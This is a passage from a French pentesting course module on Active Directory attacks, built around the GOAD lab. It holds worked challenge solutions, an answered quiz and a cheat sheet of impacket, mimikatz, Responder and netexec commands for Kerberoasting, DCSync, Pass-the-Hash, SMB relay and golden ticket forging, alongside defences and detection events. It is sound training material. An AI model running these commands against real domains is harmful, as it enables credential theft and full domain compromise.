**Correction.** `GetUserSPNs.py sevenkingdoms.local/alice:'Password123!' -dc-ip 192.168.56.10 -request` → ligne `$krb5tgs$23$*svc-app*...`. Sauvegarde dans `tgs.txt`. `hashcat -m 13100 tgs.txt /usr/share/wordlists/rockyou.txt --show` → mot de passe (ex. `Winter2021!`). Le même résultat avec john : `john --format=krb5tgs --wordlist=rockyou.txt tgs.txt`. Conclusion à écrire : le compte de service avait un mot de passe faible et ancien ; il faut passer en gMSA ou utiliser 25+ caractères.

---

### Challenge 3 (Difficile) — Trouver le hash krbtgt et forger un golden ticket

**Objectif.** Depuis un compte `Backup Operators` (ou équivalent) que tu as obtenu au challenge 2, extraire le hash de `krbtgt`, récupérer le SID du domaine, forger un golden ticket et l'utiliser pour obtenir un shell SYSTEM sur le DC.

**Étape attendue.** `secretsdump.py` (DCSync ou lecture NTDS.dit) → hash `krbtgt:502` → `ticketer.py` → `export KRB5CCNAME` → `psexec.py -k -no-pass`.

**Indice 1.** `secretsdump.py domain/user:'pass'@192.168.56.10` fonctionne si le compte a les droits de réplication OU est `Backup Operators` (il peut lire NTDS.dit via la sauvegarde).
**Indice 2.** Le SID du domaine se récupère avec `Get-ADDomain` (PowerShell) ou dans l'interface BloodHound (vue « Domain »). Il commence par `S-1-5-21-`.
**Indice 3.** Après `ticketer.py`, le fichier `Administrator.ccache` est créé dans le répertoire courant. `export KRB5CCNAME=$(pwd)/Administrator.ccache` puis `psexec.py -k -no-pass ...` — si l'horloge dérive, `KRB_AP_ERR_SKEW` apparaît (corrige avec `sudo ntpdate`).

**Correction.** 1) `secretsdump.py sevenkingdoms.local/svc-backup:'<mdp>'@192.168.56.10` → ligne `krbtgt:502:...:6b3a8d3c...`. 2) SID via `Get-ADDomain.DomainSID` → `S-1-5-21-1957994488-3892346002-1172225933`. 3) `ticketer.py -nthash 6b3a8d3c... -domain-sid S-1-5-21-1957994488-3892346002-1172225933 -domain sevenkingdoms.local Administrator`. 4) `export KRB5CCNAME=$(pwd)/Administrator.ccache` ; `psexec.py -k -no-pass sevenkingdoms.local/Administrator@dc01.sevenkingdoms.local` → `C:\Windows\system32>`. Tu peux vérifier : `whoami` → `sevenkingdoms\administrator`. Le golden ticket est la preuve irréfutable du contrôle total : il reste valide après le changement de tous les mots de passe, seule la rotation de `krbtgt` l'annule.

---

## Quiz

> ⚠️ **Légal** — Le quiz est un exercice de compréhension ; les commandes citées ne s'exécutent que sur un laboratoire autorisé.

---

### a) 20 QCM — corrigés et expliqués

1. **Que signifie AD ?**
   a) Active Directory  b) Advanced Database  c) Automatic Domain  d) Authenticated Directory
   ✅ **a.** Active Directory, le service d'annuaire de Microsoft.

2. **Quel est le rôle principal d'un Domain Controller (DC) ?**
   a) Héberger le site web de l'entreprise  b) Servir l'annuaire et l'authentification du domaine  c) Router les paquets  d) Faire la sauvegarde des postes
   ✅ **b.** Le DC détient une copie de l'annuaire (NTDS.dit) et exécute le KDC (Kerberos) et le DNS.

3. **Quel protocole AD repose sur des « tickets » délivrés par un KDC ?**
   a) NTLM  b) SMB  c) Kerberos  d) LLMNR
   ✅ **c.** Kerberos : le KDC délivre d'abord un TGT, puis des TGS pour chaque service.

4. **Dans Kerberos, que contient le TGT ?**
   a) Le mot de passe de l'utilisateur  b) Un ticket signé par la clé de krbtgt et une clé de session  c) La liste des partages  d) Le hash NTLM
   ✅ **b.** Le TGT est chiffré avec la clé du compte `krbtgt` ; il contient la clé de session TGS. Ni mot de passe ni hash NTLM.

5. **Quel est le port du protocole SMB ?**
   a) 53  b) 443  c) 445  d) 8080
   ✅ **c.** 445/TCP (SMB), et 139 pour NetBIOS. Le 53 est DNS.

6. **Quel est l'objectif du Kerberoasting ?**
   a) Voler le mot de passe en clair de l'Administrator  b) Demander un TGS pour un compte de service puis casser sa clé hors ligne  c) Empoisonner le DNS  d) Se faire passer pour le KDC
   ✅ **b.** On demande un TGS (chiffré avec la clé du compte de service) puis on le casse hors ligne.

7. **Quel outil d'impacket demande les TGS pour Kerberoasting ?**
   a) `secretsdump.py`  b) `GetUserSPNs.py`  c) `psexec.py`  d) `ntlmrelayx.py`
   ✅ **b.** `GetUserSPNs.py ... -request`. `secretsdump.py` fait le DCSync, `psexec.py` exécute à distance, `ntlmrelayx.py` relaie NTLM.

8. **Quel mode hashcat correspond au hash Kerberoast (TGS RC4) ?**
   a) 1000  b) 5600  c) 13100  d) 18200
   ✅ **c.** 13100 = TGS Kerberos RC4. 1000 = NTLM, 5600 = NetNTLMv2, 18200 = AS-REP.

9. **L'AS-REP Roasting cible les comptes :**
   a) avec un SPN  b) dont la pré-authentification Kerberos est désactivée  c) membres de Domain Admins  d) avec un mot de passe expiré
   ✅ **b.** Sans pré-auth, le KDC délivre un TGT chiffré par la clé du compte sans preuve.

10. **Quel est le mode hashcat de l'AS-REP Roast ?**
    a) 13100  b) 18200  c) 5600  d) 1000
    ✅ **b.** 18200 = AS-REP (`$krb5asrep$`). Format john : `krb5asrep`.

11. **Le Pass-the-Hash consiste à :**
    a) casser un hash  b) rejouer le hash NT comme secret pour s'authentifier sans mot de passe  c) déchiffrer NTDS.dit  d) forger un ticket
    ✅ **b.** NTLM accepte le hash comme secret ; `psexec.py -hashes :hash` ou `nxc -H hash` rejouent le hash.

12. **Quel outil permet le DCSync ?**
    a) `responder`  b) `secretsdump.py`  c) `GetNPUsers.py`  d) `hashcat`
    ✅ **b.** `secretsdump.py` (et mimikatz `lsadump::dcsync`) simulent une réplication pour obtenir les hashes.

13. **Quel compte détient la clé qui chiffre tous les TGT du domaine ?**
    a) Administrator  b) krbtgt  c) Guest  d) SYSTEM
    ✅ **b.** `krbtgt` est le compte de service du KDC. Sa clé volée permet le golden ticket.

14. **Le golden ticket permet de :**
    a) ouvrir un service précis  b) forger des TGT pour n'importe quel compte  c) cracker des mots de passe  d) désactiver NTLM
    ✅ **b.** Avec la clé de `krbtgt`, on forge des TGT (donc des identités) pour tout le domaine.

15. **Le silver ticket est :**
    a) un TGT forgé  b) un TGS forgé pour un service précis, signé avec la clé de ce service  c) un hash NT  d) un ticket d'accès SMB
    ✅ **b.** C'est un ticket de service forgé (pas de KDC) : discret mais limité à ce service.

16. **Responder sert à :**
    a) scanner les ports  b) répondre aux requêtes LLMNR/NBT-NS et capturer des hashes NTLMv2  c) casser des hashes  d) forger des tickets
    ✅ **b.** Il empoisonne la résolution de noms par diffusion pour capturer les authentifications NTLM.

17. **Le relais SMB (SMB relay) échoue si :**
    a) le mot de passe est long  b) la cible exige la signature SMB  c) le hash est en AES  d) le compte est administrateur
    ✅ **b.** La signature SMB requise bloque le relais. On vérifie avec `nxc ... -M smb_signing`.

18. **Quel évènement Windows signale typiquement un DCSync ?**
    a) 4769  b) 4624  c) 4662  d) 4720
    ✅ **c.** 4662 (opérations sur l'annuaire) pour les accès de réplication inhabituels. 4769 = TGS (Kerberoast), 4624 = connexion.

19. **Le hash NT d'un mot de passe se calcule par :**
    a) MD5(mot de passe)  b) MD4(UTF-16LE(mot de passe))  c) SHA256(mot de passe)  d) base64(mot de passe)
    ✅ **b.** Le hash NT (NTLM) = MD4 du mot de passe en UTF-16LE. Mode hashcat 1000.

20. **Le fichier de base de données d'AD s'appelle :**
    a) config.db  b) NTDS.dit  c) lsass.dll  d) sam.hive
    ✅ **b.** `NTDS.dit` contient les comptes et les hashes du domaine. `lsass` est le processus qui garde les secrets en mémoire.

---

### b) 10 Vrai/Faux — corrigés et justifiés

1. **Active Directory est utilisé dans plus de 95 % des grandes entreprises.**
   ✅ **Vrai.** C'est l'annuaire dominant des environnements d'entreprise Windows.

2. **Un DC est un simple serveur de fichiers.**
   ❌ **Faux.** C'est le serveur de l'annuaire, du KDC (Kerberos) et du DNS du domaine : un composant critique, jamais « simplement » autre chose.

3. **NTLM utilise des tickets comme Kerberos.**
   ❌ **Faux.** NTLM est un challenge/response ; Kerberos est le protocole à tickets.

4. **Tout utilisateur authentifié du domaine peut demander un TGS pour un SPN.**
   ✅ **Vrai.** C'est exactement ce qui rend le Kerberoasting possible sans privilège particulier.

5. **L'AS-REP Roasting nécessite un mot de passe valide.**
   ❌ **Faux.** Il nécessite seulement la liste des noms d'utilisateurs : le KDC délivre un TGT chiffré sans pré-authentification.

6. **Le Pass-the-Hash fonctionne sur tous les protocoles sans exception.**
   ❌ **Faux.** Il fonctionne typiquement sur SMB ; WinRM/Kerberos modernes peuvent le refuser. On passe alors par Overpass-the-Hash.

7. **Le DCSync nécessite un compte avec les droits de réplication AD.**
   ✅ **Vrai.** Droits `Replicating Directory Changes`/`All` (ou être un DC) : le compte demande la réplication et reçoit les hashes.

8. **Le golden ticket reste valable même si tous les mots de passe du domaine sont changés.**
   ✅ **Vrai.** Seule la rotation de la clé de `krbtgt` (deux rotations) invalide le golden ticket.

9. **Désactiver LLMNR et NBT-NS est une défense efficace contre Responder.**
   ✅ **Vrai.** Sans requêtes par diffusion, Responder n'a plus rien à empoisonner (il faut aussi signer SMB contre le relais).

10. **`krbtgt` est le compte administrateur du domaine.**
    ❌ **Faux.** C'est le compte de service du KDC. Son rôle : chiffrer les TGT. Voler sa clé = golden ticket.

---

### c) 10 questions ouvertes — corrigées

1. **Explique en deux phrases la différence entre NTLM et Kerberos.**
   ✅ NTLM est un challenge/response : le serveur envoie un défi, le client répond en chiffrant avec le hash de son mot de passe ; il n'y a ni ticket ni horodatage. Kerberos repose sur des tickets délivrés par un KDC (TGT puis TGS) après une preuve d'authentification, et permet l'authentification unique (SSO).

2. **Pourquoi le Kerberoasting est-il considéré comme une attaque discrète ?**
   ✅ Parce qu'il consiste uniquement en des requêtes Kerberos normales (demande de TGS) que tout utilisateur authentifié peut faire. Aucune connexion à la machine du service, aucun privilège requis : le bruit est faible, seule la corrélation des évènements 4769 le trahit.

3. **Qu'est-ce qu'un SPN et pourquoi est-il important pour le Kerberoasting ?**
   ✅ Un SPN (Service Principal Name) est l'identifiant Kerberos d'un service (`cifs/srv01`). Le TGS délivré pour ce SPN est chiffré avec la clé du compte qui le possède ; casser le TGS = retrouver le mot de passe du compte de service.

4. **Que faut-il pour réussir un relais SMB (SMB relay) ?**
   ✅ Capturer une authentification NTLMv2 (ex. via Responder), une cible SMB qui **n'exige pas** la signature SMB, et un compte capturé qui a des droits (idéalement admin local) sur la cible.

5. **Quelle est la différence entre DCSync et la copie de NTDS.dit ?**
   ✅ DCSync simule une réplication : le DC envoie les hashes via le protocole DRSR (évènement 4662). Copier NTDS.dit consiste à voler le fichier de base (ex. via les droits `Backup Operators` ou le shadow copy) puis à l'analyser hors ligne avec `secretsdump.py -ntds ... LOCAL`. Les deux donnent les hashes de tous les comptes.

6. **Pourquoi changer tous les mots de passe du domaine ne neutralise-t-il PAS un golden ticket ?**
   ✅ Parce que le golden ticket est signé avec la clé de `krbtgt`, pas avec les mots de passe des utilisateurs. Les TGT forgés restent acceptés tant que la clé de `krbtgt` n'a pas été changée (rotation double).

7. **Quels ports sont ouverts sur un DC et que signifient-ils ?**
   ✅ 88/TCP-UDP (Kerberos/KDC), 389 (LDAP) et 636 (LDAPS), 445 (SMB), 53 (DNS), 135 (RPC), 3268/3269 (Global Catalog).

8. **Citer trois évènements Windows à surveiller et l'attaque qu'ils détectent.**
   ✅ 4662 (DCSync), 4769 (Kerberoasting), 4768 (AS-REP Roast / TGT anormal), 4624/4648 (connexions et PtH), 4720/4728 (persistance par nouveaux comptes).

9. **Comment passe-t-on d'un hash NT à une identité Kerberos ?**
   ✅ Par l'Overpass-the-Hash : `mimikatz sekurlsa::pth /user:... /domain:... /ntlm:<hash> /run:powershell` crée un processus avec une identité Kerberos dérivée du hash. On peut ensuite utiliser les tickets (PtT).

10. **Qu'est-ce que l'AdminSDHolder et pourquoi c'est une cible de persistance ?**
    ✅ C'est un objet AD dont les ACL sont ré-appliquées (SDProp, toutes les 60 min) aux objets protégés (`AdminCount=1`). Modifier ses ACL crée une backdoor auto-réparante : chaque cycle restaure les droits de l'attaquant.

---

### d) 5 exercices pratiques — corrigés

**Exercice 1 — Tracer un flux Kerberos.**

Décris les 4 échanges entre un client et le KDC quand Alice accède au partage `\\srv01\data`, en nommant chaque message et son contenu clé.

✅ 1) **AS-REQ** : Alice → KDC (nom d'utilisateur + timestamp chiffré avec sa clé). 2) **AS-REP** : KDC → Alice (TGT chiffré avec la clé de `krbtgt` + clé de session TGS). 3) **TGS-REQ** : Alice → KDC (TGT + SPN `cifs/srv01` + authenticateur). 4) **TGS-REP** : KDC → Alice (TGS chiffré avec la clé du compte du service `cifs/srv01`). Ensuite Alice présente le TGS à `srv01` (AP-REQ).

**Exercice 2 — Choisir l'attaque adaptée à un hash.**

On te donne selon le cas : a) un hash NT d'un admin local de `WS-BOB` ; b) un hash NetNTLMv2 capturé par Responder ; c) un TGS `$krb5tgs$23$` ; d) le hash de `krbtgt`. Quelle attaque mène-t-on pour chacun ?

✅ a) **Pass-the-Hash** vers `WS-BOB` (ou toute machine où le compte est admin local). b) **Cracking** (`hashcat -m 5600`) ou **relais** (si cible sans signature SMB). c) **Kerberoasting offline** : `hashcat -m 13100` / `john --format=krb5tgs`. d) **Golden ticket** : `ticketer.py -nthash <hash> ...`.

**Exercice 3 — Évaluer des permissions.**

Un utilisateur `u1` est membre du groupe `Backup Operators`. Quelles capacités obtient-il et quelle est l'impacte sur le domaine si le groupe est présent sur le DC ?

✅ `Backup Operators` donne le droit de sauvegarde/restauration : lecture de tous les fichiers (y compris `NTDS.dit` et les hives `SYSTEM`) sans ACL. Sur un DC, cela permet `secretsdump.py` (lecture NTDS.dit ou DCSync selon la version) et donc l'exfiltration de tous les hashes → contrôle du domaine.

**Exercice 4 — Ordre des opérations d'un pentest AD.**

Classe ces étapes dans l'ordre le plus efficace : Kerberoasting, énumération BloodHound, DCSync, PtH, collecte des identifiants, marquage « owned » dans BloodHound.

✅ 1) Collecte des identifiants initiaux. 2) Énumération BloodHound (+ marquage owned). 3) Lecture des chemins les plus courts. 4) Kerberoasting / AS-REP selon les nœuds. 5) PtH / exécution distante vers les machines du chemin. 6) DCSync sur le DC une fois le chemin fermé.

**Exercice 5 — Corriger un échec de PtH.**

`psexec.py -hashes :<hash> user@10.10.10.5` renvoie `STATUS_ACCESS_DENIED`. Quelles sont les trois causes probables et leurs vérifications ?

✅ 1) Le compte n'est pas admin local de la cible → vérifier avec BloodHound/netexec (`nxc smb cible -u user -H hash`) l'étendue des droits. 2) Le hash est périmé (mot de passe changé) → retenter le vol (mimikatz/DCSync). 3) SMB restreint/politique d'exécution → essayer WinRM (`nxc winrm` / `evil-winrm`) ou Overpass-the-Hash.

---

## Cheat Sheet

> ⚠️ **Légal** — Cette fiche ne s'utilise que sur un laboratoire autorisé (GOAD, HTB, THM).

### Impacket — commandes essentielles

| Outil | Commande type | Rôle |
| ----- | ------------- | ---- |
| `GetUserSPNs.py` | `GetUserSPNs.py dom/user:pass -dc-ip IP -request` | Kerberoasting |
| `GetNPUsers.py` | `GetNPUsers.py dom/ -usersfile users.txt -dc-ip IP -no-pass` | AS-REP Roasting |
| `secretsdump.py` | `secretsdump.py dom/user:pass@IP` | DCSync / dump NTDS |
| `psexec.py` | `psexec.py -hashes :hash dom/user@IP` | Shell SMB (PtH) |
| `wmiexec.py` | `wmiexec.py -hashes :hash dom/user@IP` | Shell WMI (faible bruit) |
| `smbexec.py` | `smbexec.py -hashes :hash dom/user@IP` | Shell SMB sans binaire |
| `atexec.py` | `atexec.py -hashes :hash dom/user@IP 'commande'` | Exécution via Task Scheduler |
| `ticketer.py` | `ticketer.py -nthash <krbtgt> -domain-sid <SID> -domain dom User` | Golden/Silver ticket |
| `ntlmrelayx.py` | `ntlmrelayx.py -t smb://IP -smb2support -i` | SMB relay |
| `GetADUsers.py` | `GetADUsers.py dom/user:pass -dc-ip IP -all` | Énumération utilisateurs |
| `bloodhound-python` | `bloodhound-python -u user -p pass -d dom -ns IP -c All` | Collecte BloodHound |

### PowerShell — énumération AD

```powershell
Get-ADDomain                                   # SID, DC, mode de fonctionnement
Get-ADUser -Filter *                           # tous les utilisateurs
Get-ADUser <login> -Properties *               # tous les attributs
Get-ADUser -Filter * -Properties servicePrincipalName | Where-Object SPN  # comptes avec SPN
Get-ADComputer -Filter *                       # toutes les machines
Get-ADGroup -Filter *                          # tous les groupes
Get-ADGroupMember "Domain Admins"              # membres d'un groupe
Get-ADObject -Filter * -SearchBase "DC=..."    # objets par base LDAP
net user /domain                               # comptes (CLI historique)
whoami /all                                    # SID, groupes, privilèges
setspn -T dom -Q */*                           # liste des SPN
nltest /dclist:dom                             # liste des DC
gpresult /r                                    # GPO appliquées
```

### BloodHound — collecteurs et requêtes

| Élément | Commande / requête |
| ------- | ------------------ |
| Collecteur Windows | `.\SharpHound.exe --CollectionMethods All --Domain dom` |
| Collecteur Linux | `bloodhound-python -u user -p pass -d dom -ns IP -c All` |
| Requête clé | Analysis → « Shortest Paths to Domain Admins » |
| Requête clé | « Find Kerberoastable Users », « Users with AS-REP Roastable Accounts » |
| Requête clé | « Find Sessions where users have local admin rights » |
| Marquage | Mark User / Computer as Owned (point de départ des chemins) |

### Attaques — nom, commande, impact

| Attaque | Commande clé | Impact |
| ------- | ------------ | ------ |
| Kerberoasting | `GetUserSPNs.py -request` → `hashcat -m 13100` | Mot de passe d'un compte de service |
| AS-REP Roasting | `GetNPUsers.py -no-pass` → `hashcat -m 18200` | Mot de passe d'un compte sans pré-auth |
| LLMNR poisoning | `sudo responder -I eth0` | Hash NetNTLMv2 d'utilisateurs |
| SMB relay | `sudo ntlmrelayx.py -t smb://cible -smb2support -i` | Shell sur une cible non signée |
| Pass-the-Hash | `psexec.py -hashes :hash` / `nxc smb -H hash` | Exécution en tant que le compte |
| Pass-the-Ticket | `kerberos::ptt ticket.kirbi` / `Rubeus ptt` | Accès en tant que titulaire du ticket |
| Overpass-the-Hash | `mimikatz sekurlsa::pth /ntlm:<hash>` | Identité Kerberos depuis un hash |
| DCSync | `secretsdump.py -just-dc-ntlm` / `lsadump::dcsync` | Tous les hashes du domaine |
| Golden ticket | `ticketer.py -nthash <krbtgt>` + `psexec.py -k` | Contrôle total du domaine |
| Silver ticket | `ticketer.py -spn <service> -nthash <clé service>` | Accès à un service |

### Mimikatz — commandes clés

```text
privilege::debug
sekurlsa::logonpasswords          # mots de passe / clés en mémoire (lsass)
sekurlsa::tickets                 # exporter les tickets
sekurlsa::pth /user:u /domain:d /ntlm:<hash> /run:powershell
kerberos::ptt ticket.kirbi        # injecter un ticket
kerberos::golden /user:Administrator /domain:d /sid:S-1-5-21-... /krbtgt:<hash> /ptt
kerberos::golden /user:... /domain:d /sid:... /target:dc /service:cifs /rc4:<hash> /ptt
lsadump::dcsync /domain:d /user:krbtgt
lsadump::lsa /patch
lsadump::sam
```

### Responder

```bash
sudo responder -I eth0            # écouter et empoisonner
sudo responder -I eth0 -w -v      # + WPAD + verbeux
# désactiver SMB/HTTP quand on relaye avec ntlmrelayx :
sudo responder -I eth0 -d -r -w
```

### Netexec (ex crackmapexec)

```bash
nxc smb 10.10.10.0/24 -u users.txt -p pass.txt          # test en masse
nxc smb IP -u user -p pass --shares                     # partages accessibles
nxc smb IP -u user -H hash                              # PtH
nxc smb IP -u user -p pass -M smb_signing               # config signature SMB
nxc smb IP -u user -p pass --pass-pol                   # politique de mots de passe
nxc smb IP -u user -p pass --ntds                       # dump NTDS si droits
nxc winrm IP -u user -p pass                            # test WinRM
```

### Formats de hash (hashcat / john)

| Type | Préfixe | hashcat | john |
| ---- | ------- | ------- | ---- |
| NTLM (hash NT) | 32 hex | 1000 | nt |
| NetNTLMv2 | `user::dom:challenge:hash` | 5600 | netntlmv2 |
| TGS Kerberos RC4 | `$krb5tgs$23$` | 13100 | krb5tgs |
| TGS Kerberos AES | `$krb5tgs$18$` | 19600 | krb5tgs |
| AS-REP RC4 | `$krb5asrep$23$` | 18200 | krb5asrep |

### Pièges de la cheat sheet

- Toujours fournir `-ns` (DNS) aux outils impacket quand un DC est cible, sinon résolution impossible.
- `psexec.py -hashes` : le premier champ (LM) peut être vide : `-hashes :NT`.
- Un hash `31d6cfe0d16ae931b73c59d7e0c089c0` est le hash « vide » (compte Guest) : inutile de le casser.
- Kerberos tolère ±5 minutes de décalage horaire : `date` sur Kali avant un test de tickets.
- Les TGS AES (etype 18) cassent des millions de fois plus lentement que RC4 (etype 23).
- `responder` et `ntlmrelayx.py` ne doivent jamais tourner en même temps sur les mêmes ports.

---

## Pièges fréquents

1. **Confondre Kerberos et NTLM.** Croire que le Kerberoasting cible NTLM ou que le PtH est « Kerberos ». Kerberos = tickets (TGT/TGS) ; NTLM = challenge/response avec le hash NT. Les outils et les formats de hash dépendent de cette distinction : `GetUserSPNs.py` produit `$krb5tgs$`, Responder produit du NetNTLMv2.
2. **Oublier la synchronisation horaire.** Un golden ticket ou un PtT échoue avec `KRB_AP_ERR_SKEW` si l'horloge dérive de plus de 5 minutes. Réflexe : `date` avant tout test Kerberos, `sudo ntpdate <dc>` en cas de dérive.
3. **Cracker au lieu de relayer (et l'inverse).** Un hash NetNTLMv2 capturé peut être relayé sans être cassé, à condition que la cible ne signe pas SMB. On teste la signature AVANT (`nxc -M smb_signing`). Et un hash NT volé n'a pas à être cassé du tout : il se rejoue tel quel (PtH).
4. **Machine non jointe au domaine.** Lancer `Get-ADUser` ou Rubeus depuis une machine qui n'est pas membre du domaine échoue. Les outils PowerShell AD exigent une machine du domaine (ou des identifiants via `runas /netonly`) ; depuis Linux, impacket gère mais il faut le bon `-dc-ip` et le DNS.
5. **Oublier les permissions d'admin local.** Un hash de compte lambda ne donne rien sur une machine : le PtH n'aboutit que si le compte est admin local de la cible. Vérifier l'étendue des droits (BloodHound, `nxc`) avant de frapper.
6. **PtH qui ne marche que sur SMB dans certaines configs.** WinRM et Kerberos moderne peuvent refuser le PtH direct. Passer par Overpass-the-Hash (`sekurlsa::pth`) pour obtenir une identité Kerberos, ou viser un autre protocole.
7. **Confondre le SID du domaine et le SID d'un compte.** Pour `ticketer.py`, il faut le SID du domaine (`Get-ADDomain.DomainSID`, `S-1-5-21-...`), pas le SID d'un utilisateur. Une erreur de SID produit un ticket rejeté.
8. **Oublier la ligne `krbtgt:502`.** Dans l'énorme sortie de `secretsdump.py`, on cherche le compte `krbtgt` (RID 502) pour le golden ticket — pas le hash de l'Administrator (qui sert juste au PtH).
9. **Utiliser la mauvaise wordlist.** `rockyou.txt` n'est pas magique : les mots de passe de services sont souvent des variations (`Winter2021!`, `Svc@2020`, noms d'application+année). Testes `--rules` (hashcat) et les wordlists spécialisées AD avant d'abandonner.
10. **Relayer sans vérifier la signature SMB.** Lancer `ntlmrelayx.py` sur une cible qui signe SMB = échec silencieux. Toujours `nxc ... -M smb_signing` d'abord ; sinon, relayer vers LDAP ou casser.
11. **Mauvais `--format` john / mauvais mode hashcat.** `krb5tgs` pour Kerberoast, `krb5asrep` pour AS-REP, `netntlmv2` pour Responder, `nt` pour NTLM. Un hash qui « ne se charge pas » est presque toujours un format mal identifié.
12. **Lancer Responder en même temps que ntlmrelayx.** Les deux écoutent sur 445 : conflit de ports, capture cassée. Stoppe Responder, configure `-d -r -w`, puis lance le relais.
13. **Confondre machine HTB isolée et domaine.** Sur une machine non jointe à un domaine, il n'y a pas de Kerberos AD ni de GPO : les techniques AD ne s'appliquent qu'une fois le domaine trouvé (ou la machine compromise servant de point d'entrée).
14. **Croire qu'un compte avec SPN est forcément privilégié.** Un compte Kerberoastable sans droits ne donne que son propre mot de passe ; l'impact réel dépend de son appartenance. Toujours vérifier `memberOf` avant de crier victoire.

---

## Conseils professionnels

1. **Toujours BloodHound d'abord.** Avant toute attaque, collecte et lis le graphe : 30 minutes de carte valent 3 heures de frappes aveugles. Marque tes objets « owned » au fur et à mesure pour recalculer les chemins réalistes.
2. **Documente le chemin d'attaque.** Chaque découverte (compte, hash, machine, permission) se note : utilisateur → groupe → machine → compte → domaine, avec la commande et le timestamp. Ton rapport final est une chaîne, pas une liste d'outils.
3. **Vérifie les horloges.** Kerberos est impitoyable avec le temps. Sur un engagement, la première commande après l'accès est souvent `date`. Un écart de 5 minutes fait échouer tickets et golden tickets sans raison apparente.
4. **Entraîne-toi en labo avant la production.** GOAD reproduit les erreurs de configuration réelles : si tu maîtrises GOAD, tu reconnais les mêmes patterns chez les clients (dont les domaines sont rarement mieux configurés).
5. **Connais les défenses avant d'attaquer.** Chaque technique de ce cours a un évènement Windows et une contre-mesure (4769, 4662, signature SMB, Credential Guard, tier model). Un pentester qui ne sait pas comment on détecte son attaque ne peut pas évaluer le risque pour le client.
6. **Choisis l'outil selon le bruit autorisé.** En test d'intrusion standard, `psexec.py` crée un service (bruyant) ; `wmiexec.py`/`atexec.py` sont plus discrets. Le scope du contrat (et les règles d'engagement) doit fixer ce que tu as le droit de faire.
7. **Netexec (nxc) pour valider en masse, outils spécialisés pour frapper.** Teste les comptes sur tout le périmètre avec netexec, puis utilise impacket/mimikatz/Rubeus pour l'exploitation ciblée. Ne mélange jamais les deux.
8. **Écris des rapports exploitables.** Cause racine, chemin complet, preuve, correctif (avec l'ID d'évènement à surveiller). Le client achète la liste des correctifs, pas la démonstration. Un « DCSync possible » doit être accompagné de « qui a les droits de réplication, pourquoi, et comment les retirer ».
9. **Garde des snapshots et des notes de labo.** Un labo détruit se restaure en minutes ; des notes bien tenues deviennent ton portfolio et tes futurs write-ups. Ton historique de commandes Kali (`history`) n'est pas un carnet.
10. **Pense au « tier model » même en attaque.** La séparation postes/serveurs/DC n'est pas qu'une défense : elle structure les chemins. Si un admin de domaine ne se connecte jamais aux postes, les attaques par vol de session s'effondrent — et toi, tu cherches alors les délégations et les comptes de service.

---

## Résumé

### Attaque → prérequis → outil → impact

| Attaque | Prérequis | Outil | Impact |
| ------- | --------- | ----- | ------ |
| Énumération | Compte valide | BloodHound, netexec, ldapsearch | Carte complète des chemins |
| Kerberoasting | Compte + SPN | `GetUserSPNs.py`, Rubeus → `hashcat -m 13100` | Mot de passe d'un compte de service |
| AS-REP Roasting | Compte sans pré-auth | `GetNPUsers.py` → `hashcat -m 18200` | Mot de passe d'un compte |
| LLMNR/NBT-NS poisoning | Être sur le LAN + faute de frappe | Responder | Hash NetNTLMv2 |
| SMB relay | Capture + cible sans signature | `ntlmrelayx.py` | Shell sur la cible |
| Pass-the-Hash | Hash NT + droits sur cible | `psexec.py`, netexec | Exécution distante |
| Pass-the-Ticket | Ticket volé | mimikatz `ptt`, Rubeus | Accès en tant que titulaire |
| Overpass-the-Hash | Hash NT | mimikatz `sekurlsa::pth` | Identité Kerberos |
| DCSync | Droits de réplication | `secretsdump.py`, mimikatz | Tous les hashes du domaine |
| Golden ticket | Clé `krbtgt` | `ticketer.py` + `psexec.py -k` | Contrôle total du domaine |
| Silver ticket | Clé d'un service | `ticketer.py -spn` | Accès à un service |

### Les trois flux à retenir

1. **Authentification** : Kerberos (tickets, KDC) et NTLM (challenge/response) — chaque attaque cible une pièce de ces flux.
2. **Chemin d'attaque** : compte → groupe → machine → session/secret → compte plus élevé → DC. BloodHound le dessine, impacket l'exécute.
3. **Contrôle du domaine** : hashes (`secretsdump.py`) → clé `krbtgt` → golden ticket → contrôle total, persistant même après rotation des mots de passe utilisateurs.

**Le mantra du niveau 9 :** *Énumère d'abord, attaque la clé la plus faible, documente chaque saut, connais la défense de chaque technique.* Un domaine ne se « devine » pas : il se cartographie, puis se négocie de privilège en privilège jusqu'au DC.

---

## Progression

### Ce que tu maîtrises maintenant

- **Architecture AD** : annuaire LDAP, domaines, arbres, forêts, DC, DNS AD, OU, GPO, objets (users, computers, groups), SID/RID, confiances.
- **Authentification** : flux complet Kerberos (AS-REQ → AS-REP/TGT → TGS-REQ → TGS-REP → AP-REQ), NTLM challenge/response, et où circulent les secrets (lsass, NTDS.dit, mémoire des DC).
- **Énumération** : LDAP (`ldapsearch`, `Get-ADUser`, `Get-ADComputer`), BloodHound/SharpHound/`bloodhound-python`, netexec, lecture de chemins d'attaque.
- **Attaques d'authentification** : Kerberoasting (`GetUserSPNs.py`, Rubeus), AS-REP Roasting (`GetNPUsers.py`), cracking `hashcat`/`john` (modes 1000, 5600, 13100, 18200).
- **Attaques réseau** : LLMNR/NBT-NS poisoning (Responder), SMB relay (`ntlmrelayx.py`), conditions de succès du relais.
- **Mouvement latéral** : PtH, PtT, Overpass-the-Hash, `psexec.py`, `wmiexec.py`, `smbexec.py`, `atexec.py`, netexec.
- **Contrôle du domaine** : DCSync (`secretsdump.py`, mimikatz), NTDS.dit, golden et silver tickets (`ticketer.py`), persistance (AdminSDHolder, SID History, backdoors).
- **Défense** : durcissement (LLMNR coupé, SMB signé, gMSA, tier model, Credential Guard) et monitoring (évènements 4662, 4768, 4769, 4624…).

### Et maintenant ?

Le niveau 9 t'a appris à **compromettre et contrôler un domaine Active Directory** — la compétence la plus demandée du pentest d'entreprise. Le niveau 10, **Red Team**, te fait passer du « test d'intrusion du périmètre » à la **simulation complète d'un adversaire** : campagnes de phishing, évasion des AV/EDR (mimikatz/Rubeus chargés en mémoire, AMSI bypass), serveurs de commande et de contrôle (C2 : Cobalt Strike, Sliver), tunnels, persistance longue durée et rapport d'opération. Les attaques AD que tu maîtrises deviennent alors des **TTP** (tactiques, techniques, procédures) à orchestrer dans un scénario global, face à une équipe bleue active.



Tu entres dans la dernière ligne droite : les niveaux 10 et 11 sont ceux qui font la réputation des pentesters les mieux payés. Le badge 👑 Domain Master est ta première distinction « entreprise » — le niveau 10 en exigera une autre, plus exigeante encore.

---

## Gamification

### XP et badge

| Élément | Valeur |
| ------- | ------ |
| **XP gagnés** | 1750 XP |
| **Badge** | 👑 Domain Master |
| **Temps** | 20 heures |
| **Niveau débloqué** | Niveau 10 — Red Team |

### Succès débloquables

